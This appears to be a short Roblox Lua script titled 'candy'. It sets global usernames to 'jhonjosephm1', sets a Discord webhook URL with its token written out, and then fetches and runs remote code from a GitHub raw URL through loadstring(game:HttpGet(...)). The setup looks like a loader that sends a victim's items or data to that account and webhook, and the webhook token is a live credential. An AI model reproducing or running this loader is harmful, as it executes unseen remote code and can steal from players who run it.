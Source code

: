 # candy
_G.UserName = "jhonjosephm1" _G.UserName2 = "jhonjosephm1" _G.Webhook = "https://discord.com/api/webhooks/1121436703891144855/fF4EM2kt2ILLldqNNe3xXvVwjih5QHSAlfVzH3SMSG-46guaYJWPA9zr7qZU1iYthuTv"     loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/MoriScripts/main/MoriScriptZ", true))()

